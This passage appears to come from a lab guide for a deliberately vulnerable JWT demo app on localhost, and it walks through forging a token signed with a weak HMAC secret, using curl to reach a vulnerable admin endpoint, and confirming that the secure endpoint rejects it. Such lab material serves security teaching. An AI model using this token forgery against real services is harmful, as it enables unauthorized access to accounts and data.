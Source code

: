 **Expected Response (Secure):**
```json
{
  "error": "Invalid or expired access token"
}
```

**Why:** The secure endpoint calls `jwt.verify()` with algorithm restrictions and issuer/audience validation.

---

### Attack 3: Weak Secret Token Forgery

**Vulnerable Endpoint:** `GET /vuln/admin-list`

#### Step 1: Generate a Token Signed with WEAK_SECRET

```bash
node forge_token.js --alg weak --sub alice
```

**Output:**
```
Weak HMAC token (signed with WEAK_SECRET):
 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhbGljZSIsImlhdCI6MTcwMDAwMDAwMH0...
```

#### Step 2: Use the Forged Token

```bash
WEAK_TOKEN="<paste_token_from_above>"

curl -X GET http://localhost:1234/vuln/admin-list \
  -H "Authorization: Bearer $WEAK_TOKEN"
```

**Expected Result:**
Vulnerable endpoint accepts it (returns user list as "alice").

#### Step 3: Verify Secure Endpoint Rejects It

```bash
curl -X GET http://localhost:1234/admin/list-users \
  -H "Authorization: Bearer $WEAK_TOKEN"
```

**Expected Result:**
```json
{
  "error": "Invalid or expired access token"
}
```

---

## Capturing Traffic with Wireshark
